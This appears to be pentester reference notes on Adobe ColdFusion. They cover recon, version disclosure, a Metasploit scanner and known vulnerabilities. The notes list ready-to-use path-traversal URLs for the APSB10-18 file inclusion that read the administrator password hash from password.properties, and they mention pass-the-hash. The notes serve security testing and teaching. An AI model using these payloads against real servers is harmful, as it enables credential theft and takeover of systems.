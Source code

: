 # Web applications - Software ColdFusion

### Overview

Adobe ColdFusion is a commercial web application development platform created
in 1995 which uses the programming language ColdFusion Markup Language (CFML).
Indeed, Adobe ColdFusion implements an engine which process the CFML files
(.cfm, .cfc).

Adobe ColdFusion can be run on Windows, Linux, Solaris, etc. and IIS, Apache,
etc. ColdFusion runs be default as `NT AUTHORITY\ SYSTEM` on Windows and
`nobody` on Linux.

While Adobe ColdFusion used to have a wider adoption, ColdFusion is used, as of
2019, by approximately 0.5% of all the public websites. Its main use cases
remains for intranets and niche web applications development. In 2012 the
`Google` search query `inurl:index.cfm` returned more than 750 millions results,
corresponding to approximately the same number of ColdFusion websites, while in
2019 it only returns around 30 millions results.

As of January 2019, the last Adobe ColdFusion version is `ColdFusion 2018`.

### Network scan and basic recon

###### Network scan

###### Version disclosure

The `adminapi` may be accessible and used to disclose the precise version being
used:

```
<http | https>://<HOSTNAME>:<PORT>/CFIDE/adminapi/base.cfc?wsdl

# <!--WSDL created by ColdFusion version X,X,X,X-->
```

The `Metasploit` module `auxiliary/scanner/http/coldfusion_version` can be used
to retrieve to the ColdFusion version in use:

The module relies on versions, author or copyright information that could be
disclosed in a Adobe ColdFusion core page body
(`/CFIDE/administrator/index.cfm`).

```
msf> use auxiliary/scanner/http/coldfusion_version
```

###### Standard vs Enterprise editions

The standard Adobe ColdFusion edition does not support `Javascript`.

Requesting a non-existing `jsp` file (such as /non-existing-randomnumber.jsp)
will thus give two different error messages depending on the edition used:

  - *Error HTTP 500 Internal server error* will be returned for a standard
    edition
  - *Error HTTP 404 Not Found* will be returned for an enterprise edition

###### ColdFusion default URL

### Known vulnerabilities

The `CVE Details` web page can be consulted for an updated list of the known
vulnerabilities discovered on Adobe ColdFusion:

```
https://www.cvedetails.com/product/8739/Adobe-Coldfusion.html
```

###### APSB10-18 Local File Inclusion

On Adobe ColdFusion MX6, MX7, 8.0, 8.0.1, 9.0, 9.0.1 with out the APSB10-18 patch,
released in August 2010, a local file inclusion vulnerability may be leveraged
to retrieve the administrator password SHA1 hash from the `password.properties`
file.

No patches were released for the Adobe ColdFusion MX6 and MX7 as theses
versions were end of life support at the time of the vulnerability discovery.    

If the local file inclusion could be successfully exploited, the password SHA1
hash will be displayed on the administrative login page.

```
# <http | https>://<HOSTNAME>:<PORT>/<...>

# ColdFusion 6
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%en
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en

# ColdFusion 7
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%en
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en

# ColdFusion 8
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%en
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

# All versions
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%en
/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en
```

Note that, in some cases, the hash does not need to be cracked as a
Pass-the-Hash authentication may be possible.

###### Client-side injection - cross-site scripting (XSS)

Multiples cross-site scripting vulnerabilities have been discovered over the
year on Adobe ColdFusion, for a total number of 31 discoveries as of
January 2019.  

###### Server-side injection - SQL injections (SQLi)

While no publicly known SQL injection are present on the Adobe ColdFusion core,
custom CF pages may be vulnerable to SQL injections.

Refer to the `[WebApps] SQL injections` notes for more information on how to
discover and exploit SQL injections flaws.   

### Administrator interface to RCE
